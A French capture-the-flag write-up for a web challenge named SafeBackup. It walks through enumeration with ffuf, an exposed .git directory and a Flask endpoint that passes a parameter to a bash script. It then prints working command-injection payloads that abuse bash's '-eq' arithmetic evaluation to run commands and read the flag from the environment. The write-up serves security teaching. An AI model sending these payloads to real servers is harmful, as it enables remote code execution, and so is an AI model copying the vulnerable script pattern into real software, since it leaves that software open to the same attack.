

# SafeBackup Write-Up

# 1 — **Énumération**

Quand vous arrivez sur la page de SafeBackup, vous pouvez cliquer partout, rien ne se passe.

Il faut donc lancer une phase de **reconnaissance** du site afin de trouver des informations intéressantes, comme les **virtual hosts (vhosts)**, les **répertoires accessibles**, les **fichiers exposés**, etc.

Plusieurs outils peuvent être utilisés :

- Dirsearch
- ffuf
- WhatWeb
- etc.

Mon préféré reste **ffuf**, car c’est un outil de **fuzzing** hautement personnalisable.

Par exemple, vous connaissez une URL comme :

```bash
https://monsupersite.com/dashboard?id=1
```

Et vous avez besoin de savoir quels autres numéros d’ID sont disponibles.

Au lieu de les tester à la main, vous utilisez ffuf pour **fuzzer** le paramètre avec la liste (chiffres, mots, etc.) en remplaçant la valeur cible par `FUZZ`.

Exemple :

```bash
ffuf -u 'https://monsupersite.com/dashboard?id=FUZZ' -w /chemin/vers/liste.txt
```

ffuf fera autant de requêtes qu’il y a d’entrées dans la liste et affichera, entre autres :

- le code de réponse HTTP
- la taille de la réponse
- d’autres métadonnées utiles

On peut aussi utiliser ffuf avec des requêtes HTTP « raw » afin de fuzz d’autres champs, comme le `User-Agent` ou un champ `password` sur une page de connexion.

---

Dans notre cas, nous allons seulement chercher les **fichiers** et **dossiers** disponibles.

Pour cela, on utilise :

```bash
ffuf -u http://127.0.0.1/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/dirsearch.txt -fc 403
```



On remarque que plusieurs URL renvoient un code **200 OK** ou **301** (redirection).

Si vous avez déjà de l’expérience, plusieurs choses sautent aux yeux, mais ici on va s’intéresser à `robots.txt`.

`robots.txt` est un fichier destiné aux **robots d’indexation** (Google, etc.). Il leur indique quels chemins ne doivent pas être indexés et donc, en pratique, évite qu’ils apparaissent dans les résultats de recherche.

Nous allons donc sur [http://127.0.0.1/robots.txt](http://127.0.0.1/robots.txt) et regardons son contenu :

```
User-agent: *
  Disallow: /note.txt
  Disallow: /.git/*
  Disallow: /api/*
```

On remarque 3 chemins. `note.txt` a l’air intéressant :

```
Salut Titouan,

Le projet Git est toujours exposé à la racine...
Pas vraiment au niveau de l'image qu'on veut renvoyer pour une ESN de notre envergure.

On fait disparaître ça dans l'aprem, sinon on fait une POC de remplacement par une IA sur ton poste. ^^
```

La note est adressée, sans doute, à un dev qui a laissé le répertoire `.git` du site accessible.

C’est une grosse **mauvaise configuration**, car le `.git` peut être **dump** et rendre le **code source** du site accessible.

Pour dumper un `.git`, un outil très utile est [git-dumper](https://github.com/arthaud/git-dumper).

On fait donc un dump du dépôt :

```bash
git-dumper http://127.0.0.1/ ./dump
```

Dans le dossier `dump`, on trouve les fichiers versionnés. Ici, on obtient deux fichiers :

- `app.py`
- `script.sh`

# 2 — Analyse du code

### A — `app.py`

Lorsque l’on regarde le code de `app.py`, voici ce que l’on voit :

```python
from flask import Flask, request, jsonify
import subprocess

app = Flask(__name__)

@app.route("/")
def index():
    return send_from_directory(BASE_DIR, "index.html")

@app.route("/backup")
def get_handler():
    mode = request.args.get("mode")

    result = subprocess.run(
        ["/opt/script.sh", mode],
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT
    )

    return result.stdout, 200, {"Content-Type": "text/plain"}
```

C’est une application Flask très simple qui exécute un script bash (`/opt/script.sh`) avec un argument issu du paramètre `mode` (query string).

On a donc un flux : **HTTP GET → récupération de `mode` → exécution du script → renvoi de la sortie standard**.

### B — `script.sh`

Voyons le `script.sh` exécuté :

```bash
#!/bin/bash
# BIG JUICY SECURE SCRIPT FOR BACKUP FILE OR FOLDER OMG

NUM="$1"

if [[ "$NUM" -eq 1 ]]; then
  echo "Backup site"
  zip /var/backups/log1.zip /var/www/html/index.html

elif [[ "$NUM" -eq 2 ]]; then
  echo "Backup auditd"
  zip /var/backups/log2.zip /var/log/auditd.log

else
  echo "Number not bind, please use a good number, 1 or 2"
fi
```

En lisant ce script, on voit qu’en fonction du **nombre** passé en argument :

- `1` : sauvegarde du site (zip de `index.html`)
- `2` : sauvegarde du log `auditd` (zip de `/var/log/auditd.log`)
- sinon : message d’erreur

Exemple de comportement attendu :


# 3 — Exploitation

L’endpoint `/api/backup` prend un paramètre `mode` et l’envoie tel quel au script bash :

- **Input utilisateur (HTTP GET)** : `mode=...`
- **Exécution serveur** : `/opt/script.sh "$mode"`
- **Sortie** : le `stdout` du script est renvoyé dans la réponse HTTP

À première vue, les payloads d’injection de commandes classiques (ex : `;id`, `|id`,  `id` ) ne donnent rien de concluant.


Le point subtil est dans `script.sh` :

```bash
if [[ "$NUM" -eq 1 ]]; then
...
elif [[ "$NUM" -eq 2 ]]; then
...
fi
```

### A — Pourquoi `-eq` peut mener à une exécution de commande

C’est la que ça devient intéressant, lorsque l’on fait des recherche sur l’internet du web on peut retrouver : [eq can be critically vulnerable](https://dev.to/greymd/eq-can-be-critically-vulnerable-338m). 

Je vous conseil de le lire en entier c’est très intéressant !

 `[[ ... -eq ... ]]` est une comparaison **arithmétique**. Bash cherche donc à interpréter les opérandes comme des entiers.

Dans certains cas, si l’opérande contient une **substitution de commande** `$(...)`, bash peut d’abord **évaluer** cette substitution avant d’échouer la conversion en entier. C’est ce comportement qui est décrit ici dans le blog

L’idée est donc d’envoyer une valeur qui :

- force le test `[[ "$NUM" -eq ... ]]` à être évalué,
- contient `$(commande)` pour obtenir une exécution,
- et laisse quelques caractères autour (ici `x[...]`) pour stabiliser le parsing.

### B — POC : valider la RCE via `$(...)`

Test simple :

```bash
curl -g 'http://127.0.0.1/api/backup?mode=x[$(id)]'
```


Bingo ! On observe le résultat de `id` dans la réponse HTTP : on a donc bien une **RCE** (exécution de commande) côté serveur.

### C — Récupération du flag (variable d’environnement)

Le flag est stocké en variable d’environnement. Deux approches possibles :

- dumper l’environnement : `printenv`
- lire directement la variable : `echo $FLAG`

Exemple direct :

```bash
curl -g 'http://safebackup.hacknflag.fr/api/backup?mode=x[$(echo%20$FLAG)]'
```


### GG !
